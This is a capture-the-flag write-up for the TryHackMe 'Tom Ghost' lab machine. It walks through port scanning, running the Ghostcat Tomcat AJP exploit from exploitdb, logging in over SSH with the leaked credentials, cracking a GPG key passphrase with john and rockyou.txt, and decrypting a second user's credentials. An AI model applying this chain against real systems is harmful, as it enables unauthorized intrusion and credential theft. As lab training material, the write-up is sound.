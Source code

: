 # THM - Tom Ghost

## IP Address
10.10.102.57

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.102.57
```
- Results:
```
root@kali:~# nmap -p- -sV -sC -oN nmap/initial 10.10.102.57
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-25 12:11 UTC
Nmap scan report for ip-10-10-102-57.eu-west-1.compute.internal (10.10.102.57)
Host is up (0.00070s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:C4:D3:5A:26:6A (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.83 seconds
```

2. So the description of the room is very straightforward on the exploit. We will use ```searchsploit``` to find the suitable exploit script to use.
```bash
#update searchsploit as this is quite a recent exploit
searchsploit -u

#run search
searchsploit AJP
```

- Results:
```
root@kali:~# searchsploit AJP
---------------------------------- ----------------------------------------
 Exploit Title                    |  Path
                                  | (/usr/share/exploitdb/)
---------------------------------- ----------------------------------------
AjPortal2Php - 'PagePrefix' Remot | exploits/php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat Fil | exploits/multiple/webapps/48143.py
---------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

3. Lets try running the exploit for Apache Tomcat:
```bash
python /usr/share/exploitdb/exploits/multiple/webapps/48143.py 10.10.102.57
```

- Results:
```
root@kali:~# python /usr/share/exploitdb/exploits/multiple/webapps/48143.py 10.10.102.57
Getting resource at ajp13://10.10.102.57:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
- Seems like we have the user credentials here ```skyfuck:8730281lkjlkjdqlksalks```.

4. Lets see if we can accesss the system ssh with the credentials given:
```bash
ssh skyfuck@10.10.102.57
```
- Yup, we gained access to the server:
```
skyfuck@ubuntu:~$ 
```

5. By running ```ls```, I noticed that there are 2 files:
```
credential.pgp  tryhackme.asc
```

- Lets see if we can read ```tryhackme.asc``` with the following command:
```bash
gpg --import tryhackme.asc
```
- Seems like its not password protected:
```
gpg: directory `/home/skyfuck/.gnupg' created
gpg: new configuration file `/home/skyfuck/.gnupg/gpg.conf' created
gpg: WARNING: options in `/home/skyfuck/.gnupg/gpg.conf' are not yet active during this run
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: keyring `/home/skyfuck/.gnupg/pubring.gpg' created
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

- Lets decrypt it now with this:
```bash
gpg --decrypt credential.pgp
```

- Ahhhhh! A passphrase is required:
```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase: 
```

6. Lets take 1 step back and try to crack the hash with ```john```:

- First, convert tryhackme.asc into a john readable hash.
```bash
gpg2john tryhackme.asc > hash
```
- Next, we will crack the hash with ```john```:
```bash
john hash
```
- Ok, it is taking longer than expected, so lets give it a wordlist to work with. We will use ```rockyou.txt```:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- Results:
```
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2020-04-25 12:49) 7.692g/s 8246p/s 8246c/s 8246C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash --show
Invalid options combination or duplicate option: "--show"
```

-Lets see the password with ```john --show hash```:
```
root@kali:~# john --show hash
tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

7. Lets do this again:
```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

- Seems like its the credential for user ```merlin```.

8. Before you access ```merlin```, lets first just capture the first flag.
```bash
cat /home/merlin/user.txt
```

## Previlege Escalation



